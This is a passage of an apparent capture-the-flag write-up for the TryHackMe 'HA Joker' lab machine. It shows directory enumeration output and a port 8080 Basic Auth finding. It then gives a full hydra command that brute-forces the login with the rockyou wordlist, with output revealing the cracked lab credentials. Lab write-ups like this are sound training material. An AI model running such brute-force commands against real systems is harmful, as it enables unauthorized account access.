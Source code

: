 ```
/.htaccess.txt (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.html (Status: 403)
/css (Status: 301)
/img (Status: 301)
/index.html (Status: 200)
/index.html (Status: 200)
/phpinfo.php (Status: 200)
/phpinfo.php (Status: 200)
/secret.txt (Status: 200)
/server-status (Status: 403)
===============================================================
2020/10/08 20:05:04 Finished
===============================================================
```

`secret.txt`

5. There is another file which reveals information of the backend, what is it?

`phpinfo.php`

1. When reading the secret file, We find with a conversation that seems contains at least two users and some keywords that can be intersting, what user do you think it is?

* [http://10.10.252.64/secret.txt](http://10.10.252.64/secret.txt)

```
Batman hits Joker.
Joker: "Bats you may be a rock but you won't break me." (Laughs!)
Batman: "I will break you with this rock. You made a mistake now."
Joker: "This is one of your 100 poor jokes, when will you get a sense of humor bats! You are dumb as a rock."
Joker: "HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA!"
```

2. What port on this machine need to be authenticated by Basic Authentication Mechanism?

```
8080/tcp open  http    Apache httpd 2.4.29
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Please enter the password.
```

3. At this point we have one user and a url that needs to be aunthenticated, brute force it to get the password, what is that password?

```
kali@kali:~/CTFs/tryhackme/HA Joker CTF$ hydra -l joker -P /usr/share/wordlists/rockyou.txt -s 8080 10.10.252.64 -m / http-get
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-08 20:10:16
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get://10.10.252.64:8080/
[8080][http-get] host: 10.10.252.64   login: joker   password: hannah
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-08 20:10:47
```
